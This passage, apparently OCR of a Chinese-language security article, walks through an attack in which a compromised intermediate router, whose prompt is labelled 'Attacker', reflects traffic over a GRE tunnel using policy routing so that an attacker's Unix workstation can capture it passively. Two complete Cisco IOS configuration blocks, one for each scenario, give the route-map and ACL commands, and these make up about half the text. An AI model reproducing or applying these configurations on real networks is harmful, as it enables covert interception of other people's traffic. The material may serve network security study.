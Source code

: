 3.  **场景1中的策略路由配置**
    
    在场景1中（见图1），我们在中间路由器tunnel0的接口上建立策略路由，并通过GRE隧道向目标路由器“反射”流量。
    
    中间路由器操作：
    
    ```
    Attacker#conf t
    Attacker(config)#access-list 100 permit ip any any
    Attacker(config)#route-map reflect
    Attacker(config-route-map)#match ip address 100
    Attacker(config-route-map)#set ip next-hop 192.168.5.1
    Attacker(config-route-map)#exit
    Attacker(config)#int tunnel0
    Attacker(config-if)#ip policy route-map reflect
    Attacker(config-if)#exit
    Attacker(config)#exit
    Attacker#
    
    ```
    
    访问控制列表100（acl100）匹配所有IP协议流量，route map策略抓取了所有匹配访问控制列表100的流量，然后发往192.168.5.1，也就是目标路由器上终结GRE隧道的地址。这条route map策略在tunnel0接口上应用。
    
    这样配置的结果就是，所有通过tunnel0接口到达中间路由器的流量，随后会通过tunnel接口（即tunnel隧道）返回给目标路由器。
    
4.  **场景1中的Unix工作站初始化**
    
    在场景1中，攻击者的Unix工作站在外部署在中间路由器的外部接口中，在这个实例中，Unix工作站的IP地址可以配置或不配置，因为工作站只需要被动地捕获网络流量。
    
5.  **场景2中的策略路由配置**
    
    在第二个场景中，我们在中间路由器tunnel接口上和在与Unix工作站互联的内网接口上建立了策略路由，来“反射”通过GRE隧道及Unix工作站内网接口传来的流量。
    
    中间路由器操作：
    
    ```
    Attacker#conf t
    Attacker(config)#access-list 100 permit ip any any
    Attacker(config)#route-map send-traffic-in
    Attacker(config-route-map)#match ip address 100
    Attacker(config-route-map)#set ip next-hop 192.168.3.2
    Attacker(config-route-map)#exit
    Attacker(config)#int tunnel0
    Attacker(config-if)#ip policy route-map send-traffic-in
    Attacker(config-if)#exit
    Attacker(config)#route-map send-traffic-out
    Attacker(config-route-map)#match ip address 100
    Attacker(config-route-map)#set ip next-hop 192.168.5.1
    Attacker(config-route-map)#exit
    Attacker(config)#int eth0/0
    Attacker(config-if)#ip policy route-map send-traffic-out
    Attacker(config-if)#exit
    Attacker(config)#exit
    Attacker#
    
    ```
    